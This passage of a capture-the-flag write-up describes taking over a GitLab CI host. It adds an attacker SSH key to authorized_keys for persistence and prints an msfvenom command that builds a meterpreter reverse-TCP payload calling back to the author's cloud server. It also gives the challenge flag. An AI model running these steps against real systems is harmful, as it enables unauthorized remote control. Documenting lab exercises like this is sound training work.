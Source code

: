 After testing out several commands for a while, I proceeded to obtaining an SSH-shell on the remote host by adding a bash script that writes my public key to ~/.ssh/authorized_keys. And there is our shell:

![gitlab-2](/assets/img/GRIMM-hax-combined/16.PNG)
![gitlab-3](/assets/img/GRIMM-hax-combined/17.PNG)

The flag is `GRIMM-CONTINUOUS-PWNTEGRATION`. Note that the flag can be obtained just from using the configuration file to traverse the file system. However, I wanted to take this further so that I could explore the system more easily.

To make persistent and pivoting easier, I started a meterpreter shell on this machine and manage it using metasploit running on an AWS EC2 instance.

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<public-ip> LPORT=4444 -f elf > fpasswdpwn
```
